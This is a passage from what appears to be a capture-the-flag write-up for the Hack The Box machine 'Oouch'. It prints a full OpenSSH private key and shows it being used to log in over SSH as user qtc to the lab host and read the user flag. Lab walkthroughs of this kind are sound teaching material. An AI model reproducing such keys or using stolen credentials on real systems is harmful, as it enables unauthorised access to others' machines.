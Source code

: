 Aligned that in correct form.

```nix
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

I gave permission to the private key and logged in.

```nix
root@kali:~/CTF/HTB/Boxes/Oouch# chmod 600 id_rsa 
root@kali:~/CTF/HTB/Boxes/Oouch# ssh -i id_rsa qtc@oouch.htb
The authenticity of host 'oouch.htb (10.10.10.177)' can't be established.
ED25519 key fingerprint is SHA256:6/ZyfRrDDz0w1+EniBrf/0LXg5sF4o5jYNEjjU32y8s.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'oouch.htb,10.10.10.177' (ED25519) to the list of known hosts.
Linux oouch 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1 (2020-01-26) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb 25 12:45:55 2020 from 10.10.14.3
qtc@oouch:~$ ls
user.txt
qtc@oouch:~$ cat user.txt
```
